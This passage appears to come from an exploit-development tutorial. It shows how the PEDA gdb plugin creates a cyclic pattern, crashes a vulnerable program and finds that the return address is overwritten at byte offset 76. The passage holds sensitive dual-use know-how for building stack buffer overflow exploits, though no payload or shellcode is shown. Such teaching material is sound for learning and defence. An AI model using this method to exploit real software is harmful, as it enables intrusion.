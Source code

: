 followed by BBBB's etc This was tiresome and tedious so some smart programmer
(longld on github) created [peda](https://github.com/longld/peda) which is a gdb
plugin to help with exploit development.

First we'll create a cyclic pattern and set it to an argument
```
  peda-gdb$ pattern create 100
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  gdb-peda$ pset arg 'cyclic_pattern(100)'
  gdb-peda$ pshow arg 
  arg[1]: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
  gdb-peda$ run
   [----------------------------------registers-----------------------------------]
  EAX: 0x0 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0xffffffff 
  EDX: 0xb7fd38b8 --> 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0x65414149 ('IAAe')
  ESP: 0xbffff650 ("AJAAfAA5AAKAAgAA6AAL")
  EIP: 0x41344141 ('AA4A')
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0x41344141
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff650 ("AJAAfAA5AAKAAgAA6AAL")
  0004| 0xbffff654 ("fAA5AAKAAgAA6AAL")
  0008| 0xbffff658 ("AAKAAgAA6AAL")
  0012| 0xbffff65c ("AgAA6AAL")
  0016| 0xbffff660 ("6AAL")
  0020| 0xbffff664 --> 0xbffff600 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
  0024| 0xbffff668 --> 0xbffff6f0 --> 0xbffff893 ("LC_PAPER=en_GB.UTF-8")
  0028| 0xbffff66c --> 0x0 
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x41344141 in ?? ()
  gdb-peda$ 
```
As you can see a buffer of 100 chars crashed the program, lets use peda to find
out what exact offset in the buffer caused the crash
```
  $ gdb-peda$ pattern offset 0x41344141
  1093943617 found at offset: 76
```
Whay choose that hex value? well that was the walue of EIP when the program
crashed. We had overflowed the return address and the program tried to jump to
that address, we simply told peda to seacch for that byte pattern in the cyclic
pattern it had created for us ealier. PEDA told us that there are 76 characters
in the buffer before the return address gets overflowed.
